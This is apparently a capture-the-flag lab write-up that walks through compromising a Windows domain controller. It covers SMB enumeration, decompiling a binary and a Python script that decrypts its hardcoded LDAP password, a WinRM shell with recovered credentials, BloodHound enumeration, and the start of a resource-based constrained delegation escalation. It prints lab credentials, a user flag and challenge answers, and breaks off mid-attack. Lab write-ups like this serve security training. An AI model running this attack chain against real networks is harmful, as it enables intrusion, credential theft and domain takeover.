







Starting with a nmap scan:

```sh
$ sudo nmap -sV -sC -Pn -p- 10.129.25.8 -oN nmap_res
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-26 10:41 EDT
Nmap scan report for 10.129.25.8
Host is up (0.067s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-26 14:45:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49553/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-26T14:46:11
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 302.05 seconds

```

List SMB shares, access the support-tools share and get the UserInfo.exe.zip file:

```sh
$ smbclient -N -L //10.129.25.8              

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.25.8 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
$ smbclient -N \\\\10.129.25.8\\support-tools
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

                4026367 blocks of size 4096. 970530 blocks available
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (172.3 KiloBytes/sec) (average 172.3 KiloBytes/sec)
smb: \> exit
```

> How many shares is Support showing on SMB? → 6

> Which share is not a default share for a Windows domain controller? → support-tools

> Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file? → UserInfo.exe.zip

Unzip the file and identify that it is an `.Net` executable:

```sh
$ unzip UserInfo.exe.zip 
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config
$ file UserInfo.exe
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Install [ILSpy](https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip) (the open-source .NET assembly browser and decompiler) to decompile `UserInfo.exe`:

```sh
$ wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
$ unzip Linux.x64.Release.zip
$ unzip ILSpy-linux-x64-Release.zip
```

Run ILSpy and import the UserInfo.exe. Found the `LdapQuery` function which establish a LDAP connection to domain `support.htb` using service account `ldap` and password stored in the `password` variable:



Follow the code to find the password derivation function `getPassword`:



Use AI to analyze and turn it into a python script:

```python
import base64

class Protected:
    _enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
    _key = b"armando"

    @classmethod
    def get_password(cls):
        # Decode the base64 string into bytes
        data = base64.b64decode(cls._enc_password)
        
        # Perform the XOR transformation:
        # (byte ^ key_byte) ^ 0xDF
        decrypted = bytes(
            (b ^ cls._key[i % len(cls._key)]) ^ 0xDF 
            for i, b in enumerate(data)
        )
        
        # Return as a string (using default encoding)
        return decrypted.decode('utf-8', errors='ignore')

# Usage
if __name__ == "__main__":
    print(Protected.get_password())
```

Run the python script to get the LDAP password:

```sh
$ python get_password.py                                  
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

> What is the hardcoded password used for LDAP in the UserInfo.exe binary? → nvEfEK16^1aM4\$e7AclUf8x$tRWxPWO1%lmz

Install [Apache Directory Studio](https://directory.apache.org/studio/download/download-linux.html) and connect to the LDAP server using the found credentials `ldap@support.htb`:`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`:




After successful connection, discover the `support` user's password stored in plaintext under the `info` attribute:



> Which field in the LDAP data for the user named support stands out as potentially holding a password? → Ironside47pleasure40Watchful

From the attributes, we also notice that `support` is a member of the `Remote Management Users` group, which allows them to connect over WinRM.

> What open port on Support allows a user in the Remote Management Users group to run PowerShell commands and get an interactive shell? → 5985

Attempt to connect to the target using `support`:`Ironside47pleasure40Watchful` with evil-winrm:

```sh
$ evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> dir


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         4/30/2026   8:53 PM             34 user.txt


*Evil-WinRM* PS C:\Users\support\Desktop> more user.txt
a292a97e80ac4eef11f05d0923ffb19e
```

> Submit the flag located on the support user's desktop. → a292a97e80ac4eef11f05d0923ffb19e

Install and setup Bloodhound:

```
$ sudo apt update && sudo apt install -y bloodhound
$ sudo bloodhound-setup
```

Open a browser and navigate to http://localhost:7474 using BloodBloodHound's default credentials `neo4j`:`neo4j` (changed password to `1`). Update the BloodBloodHound API config file to reflect the change:

```
$ cat /etc/bhapi/bhapi.json
{
  "database": {
    "addr": "localhost:5432",
    "username": "_bloodhound",
    "secret": "bloodhound",
    "database": "bloodhound"
  },
  "neo4j": {
    "addr": "localhost:7687",
    "username": "neo4j",
    "secret": "1"
  },
  "default_admin": {
    "principal_name": "admin",
    "password": "admin",
    "first_name": "Bloodhound",
    "last_name": "Kali"
  }
}
```

Start BloodHound and visit it at http://127.0.0.1:8080 using the default credentials `admin`:`admin`:

```sh
$ sudo bloodhound
```

Next clone the BloodHound repo locally and upload `SharpHound.exe` to the target machine:

```sh
$ git clone https://github.com/BloodHoundAD/BloodHound
# At the established winrm session
*Evil-WinRM* PS C:\Users\support\Documents> upload ../../opt/BloodHound/Collectors/SharpHound.exe
                                        
Info: Uploading /home/kali/../../opt/BloodHound/Collectors/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
```

Run SharpHound to collect AD data and download the zip file locally to import into BloodHound:

```sh
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe
2026-05-18T08:02:15.3513868-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2026-05-18T08:02:15.4919161-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2026-05-18T08:02:15.5075423-07:00|INFORMATION|Initializing SharpHound at 8:02 AM on 5/18/2026
2026-05-18T08:02:15.6950437-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for support.htb : dc.support.htb
2026-05-18T08:02:15.8358141-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2026-05-18T08:02:16.0075493-07:00|INFORMATION|Beginning LDAP search for support.htb
2026-05-18T08:02:16.1012792-07:00|INFORMATION|Producer has finished, closing LDAP channel
2026-05-18T08:02:16.1171760-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2026-05-18T08:02:46.1171191-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2026-05-18T08:03:04.5387803-07:00|INFORMATION|Consumers finished, closing output channel
2026-05-18T08:03:04.5700342-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2026-05-18T08:03:04.7419036-07:00|INFORMATION|Status: 108 objects finished (+108 2.25)/s -- Using 44 MB RAM
2026-05-18T08:03:04.7419036-07:00|INFORMATION|Enumeration finished in 00:00:48.7430180
2026-05-18T08:03:04.8671720-07:00|INFORMATION|Saving cache with stats: 67 ID to type mappings.
 67 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2026-05-18T08:03:04.8981932-07:00|INFORMATION|SharpHound Enumeration Completed at 8:03 AM on 5/18/2026! Happy Graphing!
*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/18/2026   8:03 AM          12327 20260518080304_BloodHound.zip
-a----         5/18/2026   8:00 AM        1046528 SharpHound.exe
-a----         5/18/2026   8:03 AM          10022 YzgyNDA2MjMtMDk1ZC00MGYxLTk3ZjUtMmYzM2MzYzVlOWFi.bin


*Evil-WinRM* PS C:\Users\support\Documents> download 20260518080304_BloodHound.zip
                                        
Info: Downloading C:\Users\support\Documents\20260518080304_BloodHound.zip to 20260518080304_BloodHound.zip
                                        
Info: Download successful!
```

After successfull upload, we look for the `SUPPORT@SUPPORT.HTB` node and observe that it is a member of `SHARED SUPPORT ACCOUNTS` group which has GenericAll privilege on the `DC.SUPPORT.HTB` object:



Click on the GenericAll privilege and under Windows abuse we can see how we can leverage this relationship to escalate ourself to DC:



> A common attack with generic all on a computer object is to add a fake computer to the domain. What attribute on the domain sets how many computer accounts a user is allowed to create in the domain? → ms-ds-machineaccountquota

In a nutshell, through a Resource Based Constrained Delegation attack we can add a computer under our control to the domain; let's call this computer `$FAKE-COMP01`, and configure the Domain Controller (DC) to allow `$FAKE-COMP01` to act on behalf of it. Then, by acting on behalf of the DC we can request Kerberos tickets for `$FAKE-COMP01`, with the ability to impersonate a highly privileged user on the Domain, such as the Administrator. After the Kerberos tickets are generated, we can Pass the Ticket (PtT) and authenticate as this privileged user, giving us control over the entire domain.

The attack relies on three prerequisites:
- We need a shell or code execution as a domain user that belongs to the `Authenticated Users` group.
- By default any member of this group can add up to 10 computers to the domain.
The `ms-ds-machineaccountquota` attribute needs to be higher than 0. This attribute controls the amount of computers that authenticated domain users can add to the domain.
- Our current user or a group that our user is a member of, needs to have `WRITE` privileges ( `GenericAll` , `WriteDACL` ) over a domain joined computer (in this case the `Domain Controller`).
  
First check the value of `ms-ds-machineaccountquota` attribute → `10`

```pwsh
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota


DistinguishedName         : DC=support,DC=htb
ms-DS-MachineAccountQuota : 10
Name                      : support
ObjectClass               : domainDNS
ObjectGUID                : 553cd9a3-86c4-4d64-9e85-5146a98c868e
```

Next verify that `msds-allowedtoactonbehalfofotheridentity` attribute is empty. To do so, we need to use the PowerView module for Powershell:

```sh
$ curl -s -O https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
# At the established winrm session
*Evil-WinRM* PS C:\Users\support\Documents> upload PowerView.ps1
                                        
Info: Uploading /home/kali/PowerView.ps1 to C:\Users\support\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> . ./PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC
```

The value is empty, which means we are ready to perform the RBCD attack. Upload the PowerMad and Rubeus tool for this attack:

```
$ curl -s -O https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1
```